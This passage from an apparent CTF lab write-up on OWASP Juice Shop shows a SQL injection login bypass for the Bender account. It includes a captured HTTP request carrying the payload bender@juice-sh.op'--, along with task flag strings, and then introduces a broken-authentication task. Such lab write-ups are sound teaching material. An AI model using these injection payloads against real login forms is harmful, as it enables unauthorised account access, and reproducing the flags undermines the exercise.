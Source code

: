 ![](./2020-10-19_23-20.png)

`32a5e0f21372bcc1000a6088b93b458e41f0e02a`

2. **Question #2: Log into the Bender account!**

Similar to what we did in Question #1, we will now log into Bender's account! Capture the login request again, but this time we will put: bender@juice-sh.op'-- as the email. Now, forward that to the server!

But why don't we put the 1=1? Well, as the email address is valid (which will return true), we do not need to force it to be true.

![](https://i.imgur.com/Rznz31B.png)

```
POST /rest/user/login HTTP/1.1
Host: 10.10.128.32
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.128.32/
Content-Type: application/json
Content-Length: 32
Connection: close
Cookie: io=bni6lh3BmkqhE4QmAAAA; language=en; cookieconsent_status=dismiss; continueCode=l5wOojDeg73OnzQ6aB4Z8ERMvyJr0XYAq9pw5xYVWmkj2P1lXLoNbK7vRbkE

{"email":"bender@juice-sh.op'--","password":"avc"}
```

`fb364762a3c102b2db932069c0e6b78e738d4066`

## Who broke my lock?!

![](https://i.imgur.com/OM71q2D.png)

In this task, we will look at exploiting authentication through different flaws. When talking about flaws within authentication, we include mechanisms that are vulnerable to manipulation. These mechanisms, listed below, are what we will be exploiting.

- Weak passwords in high privileged accounts
- Forgotten password pages

More information: [Broken Authentication](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A2-Broken_Authentication)

